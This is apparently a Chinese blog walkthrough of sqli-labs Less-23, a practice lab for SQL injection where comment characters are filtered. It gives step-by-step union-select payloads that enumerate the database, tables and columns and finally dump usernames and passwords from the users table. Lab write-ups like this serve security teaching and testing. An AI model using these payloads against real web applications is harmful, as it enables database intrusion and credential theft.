 # 原创
：  （手工）【sqli-labs23】联合查询+报错回显

# （手工）【sqli-labs23】联合查询+报错回显

**目录**

[推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[一、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less23（GET-Error based - strip comments）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[2.1、简介：（GET注入-过滤注释）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 2.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[2.4、第三步：判断字段数](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E5%AD%97%E6%AE%B5%E6%95%B0)

[2.5、第四步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[2.6、第五步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[2.7、第六步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[2.8、第七步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

---


> 
<h2>推荐：</h2>
[【SQL注入】联合查询（最简单的注入方法）<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125551764?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165752637916782246458034%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165752637916782246458034&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125551764-null-null.185^v2^control&amp;utm_term=%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125551764?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165752637916782246458034%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165752637916782246458034&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125551764-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2&amp;spm=1018.2226.3001.4450)[【SQL注入-可回显】报错注入：简介、相关函数、利用方法<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125017089?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165752643116781683967253%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165752643116781683967253&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125017089-null-null.185^v2^control&amp;utm_term=%E6%8A%A5%E9%94%99&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125017089?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165752643116781683967253%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165752643116781683967253&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125017089-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E6%8A%A5%E9%94%99&amp;spm=1018.2226.3001.4450)


 

---


---


## 一、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析过滤
第三步：判断字段数
第四步：爆数据库名
第五步：爆表名
第六步：爆字段名
第七步：爆数据


---


---


## 二、Less23（GET-Error based - strip comments）

> 
<h3>2.1、简介：（GET注入-过滤注释）</h3>
请求方法：GET
方法：报错回显+联合查询


> 
<h3>2.2、第一步：注入点测试</h3>
使用' " ) 寻找注入点
是单引号闭合

 


> 
<h3> 2.3、第二步：分析过滤</h3>
 使用#注释后面单引号，仍报错 

 使用--+注释后面单引号，仍报错 

可以想到--+和#都已经被过滤了
接下来考虑不注释掉后面的语句
对语句进行拼接，前后各加上一个单引号闭合前后
并使用联合查询，拼接语句

 


> 
<h3>2.4、第三步：判断字段数</h3>
?id=-1' union select 1, 2, 3 '
正常回显

 
?id=-1' union select 1, 2, 3,4 '
报错

 所以字段数为3


> 
<h3>2.5、第四步：暴库</h3>
?id=-1' union select 1,2,database() '

 或者
?id=-1' union select 1,database(),3 or '1'='1<img alt="" height="841" src="https://img-blog.csdnimg.cn/e943c98be3ed45859401fc783a693e81.png" width="1200"/>
 


> 
<h3>2.6、第五步：爆表名</h3>
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' '

或者
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 or '1'='1

 


> 
<h3>2.7、第六步：爆字段</h3>
 ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' '

或者
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),3 or '1'='1

 


> 
<h3>2.8、第七步：爆数据</h3>
?id=-1' union select 1,(select group_concat(concat_ws('-',id,username,password)) from users),3 or '1'='1

 

